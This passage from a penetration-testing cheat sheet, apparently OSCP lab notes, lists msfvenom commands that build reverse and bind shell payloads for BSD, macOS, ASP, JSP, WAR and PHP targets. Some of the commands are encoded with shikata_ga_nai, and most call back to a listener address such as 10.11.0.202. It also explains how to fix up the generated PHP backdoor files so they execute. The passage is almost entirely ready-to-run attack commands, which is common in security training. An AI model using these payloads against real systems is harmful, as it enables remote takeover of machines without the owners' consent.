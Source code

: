 ```
msfvenom -p bsd/x86/shell/reverse_tcp LHOST=10.11.0.202 LPORT=21 -f elf --platform bsd -o /var/www/bsd21rev
```

### MAC Paylaods

#### Reverse Shell:
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
#### Bind Shell:
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```

### Web Based Payloads

#### ASP

#### Reverse shell :

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp

msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o shell.asp

msfvenom -a x64 --platform windows windows/shell_reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o ~/pwk_recon/mal_files/OS-
27060-64.asp

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=10.11.0.202 LPORT=6666 -f asp -o shell.asp
```
#### JSP

#### Reverse shell:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
#### WAR

#### Reverse Shell:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
#### php shells
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.202 LPORT=5555 -f raw > shell.php
```
Then you have to view the shell.php with a text editor and modify the start and end of the file. You must remove the comment or add in the correct php starting and ending code. remove // before starting php tag "<?php" and make sure the ending php tage is added to the file "?>" without quotes. 
```
msfvenom -p php/reverse_php LHOST=10.11.0.202 LPORT=443 -f raw > backdoorphp1.php

msfvenom -p php/reverse_php LHOST=10.11.0.202 LPORT=8080 -f raw > backdoorphp2.php
```
